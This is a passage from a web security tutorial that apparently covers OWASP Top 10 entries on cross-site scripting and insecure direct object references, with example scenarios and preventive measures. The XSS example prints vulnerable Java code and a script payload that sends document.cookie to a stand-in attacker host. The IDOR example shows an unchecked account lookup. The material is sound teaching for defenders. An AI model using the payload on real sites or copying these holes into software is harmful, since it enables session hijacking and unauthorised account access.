 
### **3. Cross-Site Scripting (XSS)**

![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/cf94e0ae-5a50-4830-9d44-66ffe0cdcfff.png)


Cross-site scripting flaws occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.


Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
AVERAGE | VERY WIDESPREAD   | EASY | MODERATE

**Example scenario** : The application uses untrusted data in the construction of the following HTML snippet without validation or escaping
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
The attacker modifies the 'CC' parameter in their browser to:
```
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.
```
This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.


**Preventive Measures **

1. Properly escape all untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL).
2. Whitelist server-side input validation.
3. Consider Content Security Policy [CSP](https://www.owasp.org/index.php/Content_Security_Policy) to defend against XSS across your entire site.

### **4. Insecure Direct Object References**


![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/5ab3d4f6-1604-4bde-b03f-eed5e2ca1ecd.png)

A direct object reference occurs when a developer exposes a reference to an internal implementation object, such as a file, directory, or database key. 

Without an access control check or other protection, attackers can manipulate these references to access unauthorized data.


Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
EASY | COMMON  | EASY | MODERATE

**Example scenario** : The application uses unverified data in a SQL call that is accessing account information:
```
String query = "SELECT * FROM accts WHERE account = ?";

PreparedStatement pstmt = connection.prepareStatement(query , … );

pstmt.setString( 1, request.getParameter("acct"));

ResultSet results = pstmt.executeQuery( );
```
The attacker simply modifies the ‘acct’ parameter in their browser to send whatever account number they want. If not verified, the attacker can access any user’s account, instead of only the intended customer’s account.
```
```